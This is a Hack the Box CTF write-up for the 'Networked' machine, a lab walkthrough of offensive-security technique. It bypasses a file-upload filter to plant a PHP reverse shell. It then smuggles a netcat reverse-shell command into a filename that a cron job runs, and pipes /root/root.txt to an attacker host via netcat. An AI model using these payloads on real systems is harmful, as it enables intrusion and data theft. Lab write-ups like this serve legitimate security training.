 +++
author = "Nick"
categories = ["basic", "cron", "CTF", "enumeration", "Linux", "netcat", "reverse shell", "web services", "PHP", "bash"]
date = 2019-11-16T16:47:06Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/08/info-5.png"
slug = "hack-the-box-networked"
summary = "Today we are going to go though the easy box, Networked. Lets get into it!"
tags = ["basic", "cron", "CTF", "enumeration", "Linux", "netcat", "reverse shell", "web services", "PHP", "bash"]
title = "Hack the Box - Networked"

+++


Today we are going to go though the easy box, Networked. This box was pretty unstable since it has just released a few days ago. Anyway, lets get into it!

You guessed it, we are starting it off with our standard nmap scan: ```nmap -sC -sV -oA networked 10.10.10.146```. Our results come back pretty basic. A denied port 443, ssh and http.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-114.png" >}}

We head over to see what website the box is serving and we see a standard web page.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-92.png" >}}

Source doesn't have much of anything aside from a hint of an uploader later on.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-93.png" >}}

So those pages could be active but not yet added to this page listing. We'll continue our enumeration with gobuster to see if any of the common results come back.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-94.png" >}}

We do indeed see some commonly named items. backup and uploads are good starts. We head over to backup and we find a backup.tar.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-95.png" >}}

We download the backup.tar and unzip it

{{< figure src="__GHOST_URL__/content/images/2019/08/image-96.png" >}}

These .php files are all presumably live on our current host. So when we try to head over to photos.php, we do indeed have some content.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-97.png" >}}

Now all we have to do is check the source of these pages to see what is happening. Essentially upload.php is only letting us upload images types, change the underscores for periods and setting permissions.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-99.png" >}}

The lib.php has some interesting code for validating the file type. It also has a small snippet for validating a filename for an 'attack'.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-100.png" >}}

So our goal here is to simply upload a reverse shell and have it execute. The first thing we'll do is copy our [standard reverse php shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) file into our working directory. We'll then make a copy under the name 10_10_15_222.php.png since we know that the page with audit the filename and type. Now we'll modify the script accordingly.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-101.png" >}}

We also know that the lib.php is checking our file type. We can easily bypass this by adding GIF89a; at the header of our reverse shell. You can see other forms of file upload bypassing [here](https://github.com/xapax/security/blob/master/bypass_image_upload.md).

{{< figure src="__GHOST_URL__/content/images/2019/08/image-102.png" >}}

Next we start up a Netcat session listing on our defined port. Then upload the file to the server.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-103.png" >}}

Next thing we know...

{{< figure src="__GHOST_URL__/content/images/2019/08/image-98.png" >}}

We have a shell. Poking around a bit here doesn't have much. We see there is only 1 user, guly, when we look at /home. So lets see if we can LinEnum the machine. Head over to /tmp and download our file. In this case, wget is not on the machine, so we use ```curl -o lin.sh http://10.10.15.227/LinEnum.sh``` this time to get our file.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-104.png" >}}

We don't see much. We do see a file called check_attack.php in Guly's home directory. As we look at the file, we see what looks to be an easy command injection on line 30.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-106.png" >}}

We also have crontab.guly as well.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-107.png" >}}

So it seems that every 3 minutes, php is called to run check_attack.php. With these two combined we can create a netcat connection back to our machine!

We will head over to our upload directory. Here we will create a file. ```touch "; nc 10.10.15.227 9999 -c bash```. This will create a file that is called by the check_attack.php file. In this case, it will concatinate the ```rm -f``` command and execute our command, in this case, nc to our machine.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-105.png" >}}

Now that we have a shell as user, lets snag the flag! We upgrade our shell and start enumeration. We see that guly can run the following as root.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-108.png" >}}

When we look at the contents of this file, we see the following:

{{< figure src="__GHOST_URL__/content/images/2019/08/image-109.png" >}}

So now that we know we can command inject in this script we can use it to get the root flag. Trying to cat /root/root.txt won't work out for us because of our regex expression list doesn't support a period. Now we could escape around it but it's actually easier to make a small shell script and call it.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-111.png" >}}

So here we echo our command into a file by using ```echo "cat /root/root.txt | nc 10.10.15.227 6969" > file```. The reason we are piping it to netcat is because I want the file on my attacking machine. So on our machine we start netcat listening on port 6969: ```nc -lvnp 6969 > root.txt``` then export it to root.txt.

Now all we do is call the same shell script as before but point it to our newly created script file:

{{< figure src="__GHOST_URL__/content/images/2019/08/image-113.png" >}}

And we see our Netcat light up and receive the file.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-112.png" >}}

We have the flag!

Now we can use this same approach to do plenty of other things, this was just the fastest way to the flag. We could make a script to add ourselves to the sudoers file, copy ssh keys, create ssh keys or anything else because we are executing this command as root.

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

